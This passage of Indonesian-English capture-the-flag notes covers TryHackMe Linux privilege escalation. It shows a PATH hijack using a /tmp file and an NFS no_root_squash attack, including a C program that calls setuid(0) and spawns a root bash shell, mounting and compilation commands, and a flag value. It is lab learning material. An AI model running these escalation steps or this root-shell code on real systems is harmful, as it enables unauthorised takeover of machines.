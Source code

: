 ## Add thm file in tmp (coz tmp is easier to write)
-- Cek permission di tmp
   >. ls -la /tmp
>. cd /tmp
>. nano thm
   /bin/bash
-- Change thm permission
   >. chmod 777 thm

## Exploit
>. cd /home/murdoch
>. ./test
   -- SUCCESS :)

## Find Flag
-- THM-736628929


[=]  Task 11 - PrivEsc via NFS  [=]

## Check NFS configuration
>. cat /etc/exports
   -- cari yg ada flag 'rw' & 'no_root_squash'

## Enumerate mountable shares
>> showmount -e {target_machine_ip}

## Change to superuser in local machine
>> sudo su

## Make a folder to share, in '/' directory
>> cd /
>> mkdir mount
>> cd mount
>> mkdir linprivesc

## Connect shared folder from local to target machine
>> mount -o rw {target_machine_ip}:{mount_shared_folder} {local_folder}
>> mount -o rw 10.10.76.18:/home/ubuntu/sharedfolder /mount/linprivesc

## Exploit
-- Write exploit
   >> nano code.c
      #include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      int main (void) {
         setuid(0);
         setgid(0);
         system("/bin/bash -p");
         return 0;
      } 
-- Compile code
   >> gcc code.c -o code
